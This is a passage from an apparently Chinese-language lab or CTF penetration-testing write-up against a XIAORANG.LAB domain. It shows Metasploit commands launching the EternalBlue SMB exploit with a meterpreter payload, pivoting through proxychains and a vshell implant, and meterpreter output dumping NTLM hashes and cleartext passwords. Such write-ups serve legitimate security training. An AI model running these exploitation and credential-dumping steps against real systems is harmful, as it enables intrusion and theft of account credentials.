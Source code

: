 ```sh
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.11.45
exploit
```

需要注意的是如果直接 viper msf 里的 route 功能似乎连不到 bind 端口，所以需要配置一个代理然后用 proxychains 连接，然后 viper 的坑就来了，viper 的代理似乎挺容易炸的不知道为啥，所以憋得只能再上了一个 vshell 的马来开代理 XD

![](https://cdn.silente.top/img/202311140204266.png)


然后 viper 使用 windows/meterpreter_reverse_tcp 利用入口机的 session 生成一个监听，上传载荷上线，具体多级代理上线可以看 viper 的[文档](https://www.yuque.com/vipersec/blog/gssfbg)：

![](https://cdn.silente.top/img/202311140205539.png)

### 26 (XR-LCM3AE8B)

`ps` 然后迁移到 64 位进程，方便加载 kiwi：

![](https://cdn.silente.top/img/202311142021304.png)


```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  c741dc7c8950a2864de8ce65e740fba4  baa9ac037870d34483cda5b623e2bfbbdc471e65
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  xx
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  xx
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:48f6da83eb89a4da8a1cc963b855a799:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
